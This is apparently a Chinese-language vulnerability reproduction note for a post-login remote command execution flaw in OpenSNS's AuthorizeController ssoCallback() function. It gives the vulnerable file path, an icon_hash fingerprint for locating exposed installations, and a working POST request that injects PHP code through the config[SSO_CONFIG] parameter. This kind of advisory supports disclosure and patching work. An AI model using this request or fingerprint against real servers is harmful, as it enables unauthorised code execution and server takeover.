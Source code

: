 # OpenSNS AuthorizeController.class.php 后台远程命令执行漏洞

# OpenSNS AuthorizeController.class.php 后台远程命令执行漏洞

## 漏洞描述

OpenSNS AuthorizeController.class.php文件 ssoCallback() 函数存在命令执行漏洞，在登录的情况下可以获取服务器权限

## 漏洞影响

```
OpenSNS
```

## 网络测绘

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154117028](/images/202205181541097.png)

存在漏洞的文件为 `Application/Admin/Controller/AuthorizeController.class.php`

![image-20220518154127216](/images/202205181541309.png)

其中 config参数可控，构造请求就可以通过 file_put_contents 写入执行任意命令

![image-20220518154143157](/images/202205181541252.png)

构造请求包

```
POST /admin.php?s=/Authorize/ssoCallback\

config[SSO_CONFIG]=phpinfo();
```

![image-20220518154206103](/images/202205181542195.png)

